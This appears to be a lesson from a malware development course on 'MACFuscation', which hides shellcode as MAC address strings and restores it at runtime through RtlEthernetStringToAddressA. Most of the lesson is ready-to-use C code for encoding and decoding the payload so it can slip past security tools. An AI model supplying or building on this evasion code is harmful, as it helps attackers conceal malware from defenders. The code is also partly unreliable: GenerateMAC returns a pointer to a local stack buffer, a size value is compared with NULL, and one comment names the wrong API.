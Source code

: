 22. Payload Obfuscation - MACFucscation# [**22. Payload Obfuscation - MACFucscation**](https://maldevacademy.com/modules/22)

## **Payload Obfuscation - MACFucscation**

### **Introduction**

This module will go through another obfuscation technique that is similar to IPv4/IPv6fuscation but instead converts shellcode to MAC addresses.

### **MACFuscation Implementation**

The implementation of MACFuscation will be similar to what was done in the previous module with IPv4/IPv6fuscation. A MAC address is made up of 6 bytes, therefore the shellcode should be a multiple of 6, which again can be padded if it doesn't meet that requirement.


```
// Function takes in 6 raw bytes and returns them in a MAC address string format
char* GenerateMAC(int a, int b, int c, int d, int e, int f) {
	char Output[64];

	// Creating the MAC address and saving it to the 'Output' variable
	sprintf(Output, "%0.2X-%0.2X-%0.2X-%0.2X-%0.2X-%0.2X",a, b, c, d, e, f);

	// Optional: Print the 'Output' variable to the console
	// printf("[i] Output: %s\n", Output);

	return (char*)Output;
}

// Generate the MAC output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateMacOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {

	// If the shellcode buffer is null or the size is not a multiple of 6, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 6 != 0){
		return FALSE;
	}
	printf("char* MacArray [%d] = {\n\t", (int)(ShellcodeSize / 6));

	// We will read one shellcode byte at a time, when the total is 6, begin generating the MAC address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 6.
	int c = 6, counter = 0;
	char* Mac = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {

		// Track the number of bytes read and when they reach 6 we enter this if statement to begin generating the MAC address
		if (c == 6) {
			counter++;

			// Generating the MAC address from 6 bytes which begin at i until [i + 5]
			Mac = GenerateMAC(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3], pShellcode[i + 4], pShellcode[i + 5]);

			if (i == ShellcodeSize - 6) {

				// Printing the last MAC address
				printf("\"%s\"", Mac);
				break;
			}
			else {
				// Printing the MAC address
				printf("\"%s\", ", Mac);
			}
			c = 1;

			// Optional: To beautify the output on the console
			if (counter % 6 == 0) {
				printf("\n\t");
			}
		}
		else {
			c++;
		}
	}
	printf("\n};\n\n");
	return TRUE;
}


```
### **Deobfuscating MACFuscation Payloads**

The deobfuscation process will reverse the obfuscation process, allowing a MAC address to generate bytes instead of using bytes to generate a MAC address. Performing deobfuscation will require the use of the NTDLL API function [RtlEthernetStringToAddressA](https://learn.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetstringtoaddressa). This function converts a MAC address from a string representation to its binary format.


```
typedef NTSTATUS (NTAPI* fnRtlEthernetStringToAddressA)(
	PCSTR		S,
	PCSTR* 		Terminator,
	PVOID		Addr
);

BOOL MacDeobfuscation(IN CHAR* MacArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE          pBuffer        = NULL,
                   TmpBuffer      = NULL;

	SIZE_T         sBuffSize      = NULL;

	PCSTR          Terminator     = NULL;

	NTSTATUS       STATUS         = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlEthernetStringToAddressA pRtlEthernetStringToAddressA = (fnRtlEthernetStringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlEthernetStringToAddressA");
	if (pRtlEthernetStringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of MAC addresses * 6
	sBuffSize = NmbrOfElements * 6;


	// Allocating memeory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	TmpBuffer = pBuffer;

	// Loop through all the MAC addresses saved in MacArray
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one MAC address at a time
		// MacArray[i] is a single Mac address from the array MacArray
		if ((STATUS = pRtlEthernetStringToAddressA(MacArray[i], &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlEthernetStringToAddressA Failed At [%s] With Error 0x%0.8X", MacArray[i], STATUS);
			return FALSE;
		}

		// 6 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 6 to store the
		TmpBuffer = (PBYTE)(TmpBuffer + 6);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress  = pBuffer;
	*pDSize      = sBuffSize;

	return TRUE;

}

```
The image below shows the deobfuscation process successfully running.

[![](22%20Payload%20Obfuscation%20-%20MACFucscation%208acebc37c16548f2a0279babcac9f579/macfuscation.png)](22%20Payload%20Obfuscation%20-%20MACFucscation%208acebc37c16548f2a0279babcac9f579/macfuscation.png)